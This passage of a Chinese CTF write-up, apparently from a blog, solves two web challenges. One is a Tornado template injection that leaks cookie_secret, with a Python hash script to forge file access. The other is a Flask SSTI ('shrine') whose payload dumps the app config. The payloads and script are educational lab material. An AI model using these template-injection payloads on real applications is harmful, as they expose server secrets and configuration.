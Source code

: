 所以需要找到cookie_secret

网上搜 Tornado render payload：

![](https://img-blog.csdnimg.cn/20210307174720185.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

>?msg={{handler.settings}}

拿到cookie_secret:  a8c9da8f-0f16-456e-bd0c-41949deab23e

![](https://img-blog.csdnimg.cn/20210307174822872.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
计算hash脚本：

```bash
import hashlib

filename = '/fllllllllllllag'
cookie_secret ="a8c9da8f-0f16-456e-bd0c-41949deab23e"

def getvalue(string):
    md5 = hashlib.md5()
    md5.update(string.encode('utf-8'))
    return md5.hexdigest()

def merge():
    print(getvalue(cookie_secret + getvalue(filename)))

merge()
```
访问即可


---
## shrine
- 考点：SSTI


![](https://img-blog.csdnimg.cn/20210307175024203.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

一看ssti 测试：

![](https://img-blog.csdnimg.cn/2021030717504197.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

```
get_flashed_messages //字面意思，获取内容，就是取值，后面跟的就是要取得值

current_app //设计模式中代理设计的代理对象，指向flask核心对象和reques的请求类
```

payload：
```
 /shrine/{{get_flashed_messages.__globals__['current_app'].config}}
```
